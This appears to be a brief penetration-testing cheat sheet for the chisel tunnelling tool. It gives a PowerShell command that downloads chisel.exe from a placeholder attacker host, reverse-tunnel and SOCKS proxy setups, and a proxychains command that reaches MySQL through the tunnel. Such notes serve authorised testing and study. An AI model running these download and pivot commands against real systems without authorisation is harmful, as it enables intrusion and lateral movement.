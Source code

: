 https://github.com/jpillora/chisel/releases

```powershell
Invoke-WebRequest -Uri http://<ip>:8000/chisel.exe -OutFile chisel.exe
```

```bash
# Server
chisel server --reverse --socks5
# Server on Custom Port
chisel server --reverse --port 9001
# Client
chisel client <ip>:8080 R:3000:localhost:3000
```
## Proxychains
```bash
chisel server --reverse --socks5 --port 9999

chisel client <ip>:9999 R:socks

proxychains mysql -u username -p password -h 127.0.0.1:1080
```

## Port Forwarding
https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/
